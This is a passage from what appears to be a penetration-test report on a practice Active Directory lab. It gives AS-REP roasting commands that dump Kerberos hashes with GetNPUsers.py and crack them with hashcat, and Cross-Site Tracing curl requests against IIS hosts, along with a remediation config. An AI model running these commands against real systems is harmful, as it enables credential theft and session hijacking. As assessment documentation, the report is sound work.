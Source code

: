 **Exploitation:**
```bash
# AS-REP Roasting Attack
GetNPUsers.py north.sevenkingdoms.local/ -dc-ip 192.168.20.11 -usersfile users.txt -outputfile asrep_hashes.txt

# Hashcat Cracking
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```

---

## 2. High Risk Vulnerabilities (CVSS 7.0-8.9)

### 2.1 HTTP TRACE Method Enabled

**CVSS Score:** 8.2 (High)
**Vector:** AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N

**Affected Hosts:**
- KINGSLANDING (192.168.20.10:80)
- CASTELBLACK (192.168.20.22:80)  
- BRAAVOS (192.168.20.23:80)

**Technical Evidence:**
```
http-methods: Potentially risky methods: TRACE
Server: Microsoft-IIS/10.0
```

**Exploitation:**
```bash
# Cross-Site Tracing (XST) Attack
curl -X TRACE http://192.168.20.10/
curl -X TRACE http://192.168.20.22/ -H "Cookie: session=sensitive_data"
curl -X TRACE http://192.168.20.23/ -H "Authorization: Bearer token"
```

**Impact:**
- Session hijacking via XST
- Cookie/header disclosure
- Authentication bypass potential
- Client-side attack vectors

**Remediation:**
```xml
<!-- IIS applicationHost.config -->
<system.webServer>
  <security>
    <requestFiltering>
      <verbs applyToWebDAV="false">
        <add verb="TRACE" allowed="false" />
        <add verb="TRACK" allowed="false" />
      </verbs>
    </requestFiltering>
  </security>
</system.webServer>
```
